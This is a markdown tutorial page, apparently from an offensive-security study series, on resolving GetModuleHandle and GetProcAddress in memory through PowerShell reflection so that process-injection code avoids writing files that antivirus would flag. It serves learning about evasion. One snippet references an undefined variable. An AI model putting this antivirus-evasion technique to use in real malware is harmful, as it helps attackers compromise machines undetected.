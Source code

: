 # Powershell-Process Injection drawbacks

- The problem with technique shown on [day11](../days/day11.md) is that it will save the code temprorily on disk which will be enough for AV to flag. The `Add-Type` instruction creats a C# code and a compiled DLL that bascially contains the compiled source code for C# which is executed. But since it touches a **DISK** its a big NO

# What to do now?

- We will basically just create assembly instructions and execute those in memory instead of writing the code and then compiling it which would copy temprory to disk.

# How to Do?

- Use `GetModuleHandle` and `GetProcAddress` to perfrom dynamic lookup.
GetModuleHandle is used to obtain handle i.e memory address for the specific DLL and GetProcAddress will be later used to get memory address of function inside the DLL.

- Now the next question is how to import these methods. Here, we will look into finding the methods that are already loaded into current session and utilizing those.


We will first find the method loaded via powershell
```powershell
$asm=[System.AppDomain]::CurrentDomain.GetAssemblies()
$asm | ForEach-Object { $_.Location
	$_.GetTypes() |
		ForEach-Object {
			$_ |Get-Member -Static |Where-Object {
				$_.TypeName.Equals('Microsoft.Win32.UnsafeNativeMethods')
			}
	} 2> $null
}
```
This would show DLL thats currently is used for session and methods used by DLL.
![powershell](../images/powershell.png)

We now need to get the reference to these functions via getting handle to System.dll using GetType method.

```powershell
$systemdll = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') })
$unsafeObj = $systemdll.GetType('Microsoft.Win32.UnsafeNativeMethods')
$GetModuleHandle = $unsafeObj.GetMethod('GetModuleHandle')
$address_kernel32=$GetModuleHandle.Invoke($null,@("kernel32.dll"))
```
Now $address_kernel32 will have the base address for kernel32.dll

Now to get address of function inside method of kernel32.dll like VirtualAlloc
```
$GetProcAddress = $unsafeObj.GetMethod('GetProcAddress')
```
Now this will give error since there are just sooo many instance of GetProcAddress.Hence we need to select any one and get address from that.
```powershell
$ref=@()
$unsafeObj.GetMethods() |ForEach-Object {If($_.Name -eq "GetProcAddress") {$ref+=$_}}
$ref[0].Invoke($null,@($kernel32,"VirtualAlloc"))
```
This would print out the address of function VirtualAlloc present in kernel32.dll from present session.

Hence we can convert it to a function that would just give you address and you just need to pass DLL and method name.

```powershell
function GetAddr($DLL,$Method){
	$systemdll=([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll')})
	$unsafeobj = $systemdll.GetType('Microsoft.Win32.UnsafeNativeMethods')
	$GetModuleHandle = $unsafeObj.GetMethod('GetModuleHandle')
	$addr_kernel = $GetModuleHandle.Invoke($null,@($DLL[0]))
	$ref=@()
	$unsafeobj.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$ref+=$_}}
	$base_addr = $ref[0].Invoke($null,@($addr_kernel,$DLL[1]))
	return "$addr_kernel,$base_addr"
}
```
Now you can call it like
```
GetAddr("kernel32.dll","VirtualAlloc")
```
